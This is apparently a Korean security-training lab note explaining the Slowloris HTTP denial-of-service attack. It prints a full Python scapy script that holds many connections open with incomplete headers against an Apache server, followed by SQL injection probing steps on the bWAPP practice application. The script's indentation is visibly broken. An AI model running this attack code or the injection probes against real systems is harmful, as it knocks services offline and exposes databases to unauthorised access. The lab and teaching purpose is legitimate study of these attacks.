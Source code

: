 # (Day 7) Slowloris Attack

## Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

## [실습] scapy를 활용

- **Kally #2**
- `gedit slowloris.py`    slowloris 파일 생성

    #! /usr/bin/env python
    
    import sys
    import time
    from scapy.all import *
    
    def slowloris (target, num) :
        print "start connect > {}".format(target)
        syn = []
        for i in range(num) :
            syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    		
    		syn_ack = sr(syn, verbose=0)[0]
    	
    	ack = []
    	for sa in syn_ack :
    	    payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
    	    "Host: {}\r\n".format(target) +\
    	    "User-Agent: Mozilla/4.0\r\n" +\
    	    "Content-Length: 42\r\n"
    	
    	    ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    	
    	answer = sr(ack, verbose=0)[0]
    	print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    	print "Sending data \"X-a: b\\r\\n\".."
    	
    	count = 1
    	while True :
    	    print "{} time sending".format(count)
    	    ack = []
    	    for ans in answer :
    	        ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
    	    answer = sr(ack, inter=0.5, verbose=0)[0]
    	    time.sleep(10)
    	    count += 1
    
    if __name__ == "__main__" :
        if len(sys.argv) < 3 :
            print "Usage: {} <target> <number of connection>".format(sys.argv[0])
            sys.exit(1)
        slowloris(sys.argv[1], int(sys.argv[2]))

- **Kally #1**
    - 서버 재기동
    `service apache2 stop`
    `service apache2 start`
    - 서버 상태 확인 (브라우저) [localhost/server-status](http://localhost/server-status)
- **Kally #2**
    - `python [slowloris.py](http://slowloris.py/) KALI#1_IP 50`
    50개의 패킷을 Kalli #1에게 전송

        ![Day%207%20Slowloris%20Attack/Untitled.png](images/Day%207%20Slowloris%20Attack/Untitled.png)

- **Kally #1의 브라우저 (localhost/server-status)**
- 50개의 패킷 요청을 읽고 있음

    ![Day%207%20Slowloris%20Attack/Untitled%201.png](images/Day%207%20Slowloris%20Attack/Untitled%201.png)

- Kally #1
    - mysql 서버 재기동
    service mysql start
- Kally #2
    - (브라우저) Kally #1의 bWAPP 로 접속 `Kally #1_ip /bWAPP`

        ![Day%207%20Slowloris%20Attack/Untitled%202.png](images/Day%207%20Slowloris%20Attack/Untitled%202.png)

        영화 조회 서비스

        ---

        [화면]
        제목 : man

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man%'

        ![Day%207%20Slowloris%20Attack/Untitled%203.png](images/Day%207%20Slowloris%20Attack/Untitled%203.png)

        입력값이 전달/사용 과정에서 조작이 발생하는지를 확인할 때

        ---

        화면]
        제목 : man'

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man'

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man'%'

        ![Day%207%20Slowloris%20Attack/Untitled%204.png](images/Day%207%20Slowloris%20Attack/Untitled%204.png)

        ⇒ 백엔드 db가 mysql이라는 정보와 화면에서 입력한 값은 그대로 쿼리의 생성/실행에 활용됨

        - 정상적인 쿼리가 반환하는 컬럼의 개수를 확인

        ![Day%207%20Slowloris%20Attack/Untitled%205.png](images/Day%207%20Slowloris%20Attack/Untitled%205.png)

        ![Day%207%20Slowloris%20Attack/Untitled%206.png](images/Day%207%20Slowloris%20Attack/Untitled%206.png)

- 웹 해킹 관련 서적
    - 클라이언트 side :
    - 서버 side : 웹 해킹 & 보안 완벽 가이드